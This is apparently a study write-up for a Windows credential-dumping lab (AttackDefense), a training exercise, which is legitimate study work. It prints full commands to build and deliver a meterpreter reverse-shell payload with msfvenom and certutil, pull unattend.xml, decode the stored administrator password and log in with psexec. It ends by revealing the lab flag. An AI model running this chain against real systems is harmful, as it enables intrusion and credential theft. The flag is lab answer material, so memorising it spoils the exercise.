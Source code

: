 # 🔬Credentials Dumping

## Lab 1 - Unattended Files

>  🔬 [Unattended Installation](https://attackdefense.com/challengedetails?cid=2106)
>
>  - Target IP: `10.4.19.9`
>  - Searching for password in Windows Configuration files
>  - Both Kali Machine and Attacker/Victim Windows machine are provided

- On the Attacker machine check the current user

![](.gitbook/assets/image-20230317213909012.png)

### Exploitation

- From the Kali machine, generate a `meterpreter` x64 payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe
```

- Set up a web server to host the payload

```bash
python -m SimpleHTTPServer 80
```

- Download the payload file on the target system using the `certutil` tool in `cmd`

```bash
cd Desktop
certutil -urlcache -f http://10.10.4.2/payload.exe payload.exe
```

- Stop the http server and start `msfconsole` on the Kali machine

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST 10.10.4.2
run
```

- Execute the `payload.exe` on the Win target system and check the reverse shell on Kali 

![](.gitbook/assets/image-20230317215026735.png)

- Manually search for the **`unattend.xml`** file, it should be inside
  - `C:\\Windows\\Panther`

```bash
cd C:\\Windows\\Panther
dir
download unattend.xml
```

![](.gitbook/assets/image-20230317215347887.png)

- In a new terminal tab

```bash
cat unattend.xml
```

![](.gitbook/assets/image-20230317215729174.png)

### Get Access

- `administrator` user configured base64 password is **`QWRtaW5AMTIz`**
  - Save it to a new file
  - Decode it using the `base64` tool

```bash
nano password.txt
# paste the password, save and exit the file

base64 -d password.txt 
	Admin@123root
```

![](.gitbook/assets/image-20230317220002907.png)

- Test the `administrator`:`Admin@123root` credentials with the `psexec` tool

```
psexec.py administrator@10.4.19.9
```

![](.gitbook/assets/image-20230317220734394.png)

```bash
cd C:\Users\Administrator\Desktop
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`097ab83639dce0ab3429cb0349493f60`

![](.gitbook/assets/image-20230317221229330.png)

</details>

------

## Lab 2 - Mimikats

